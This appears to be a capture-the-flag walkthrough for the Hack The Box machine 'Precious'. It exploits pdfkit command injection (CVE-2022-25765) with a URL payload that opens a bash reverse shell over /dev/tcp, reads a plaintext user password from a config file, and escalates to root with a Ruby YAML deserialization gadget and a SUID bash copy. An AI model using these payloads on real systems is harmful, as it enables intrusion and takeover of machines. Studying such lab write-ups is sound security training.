# [Precious](https://app.hackthebox.com/machines/precious)

```bash
nmap -p- --min-rate 10000 10.10.11.189 -Pn  
```



After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.189 
```




I just add this ip address into '/etc/hosts' file for resolving purposes.


I just set up http server via `python`, then I submit such an URL into here

And I see that this generates such an `.pdf` file for me.




Let's look at this .pdf file via `exiftool` command.
```bash
exiftool umrcn0cr57a4t019qgec1qqr0kgbnn4o.pdf
```




I see that `Creator` is **'pdfkit v0.8.6'**.


I searched publicly known exploit for this version of product.

I found that this version of product has `Command Injection` vulnerability whose CVE-id is [CVE-2022-25765](https://github.com/UNICORDev/exploit-CVE-2022-25765).


I just try by submitting such data into here.
```bash
http://10.10.16.7:8080/?name=%20`id`
```

I see result of `id` command.




Let's add reverse shell into here like below.
```bash
http://10.10.16.7:8080/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"`
```



I got reverse shell from port (1337).




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I just found `.bundle` directory on `ruby`'s  user home directory. There's sensitive file called '**config**'




henry: Q3c1AqGHtoI0aXAYFH

user.txt




For privilege escalation, I just run `sudo -l` command.




While reading this file, I see that `dependencies.yml` file is shown.




Let's create our malicious `.yml` file as below which we inject `id` command here (git_set variable).
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id

         method_id: :resolve
```


Yes, that's worked while I execute `.rb` file. (`id` command's result is here)




Now, I add malicious command into here, which create copy of `/bin/bash` and give `SUID` permission.
```bash
cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks
```




Let's run this executable via `./dr4ks -p` to get root shell.


root.txt

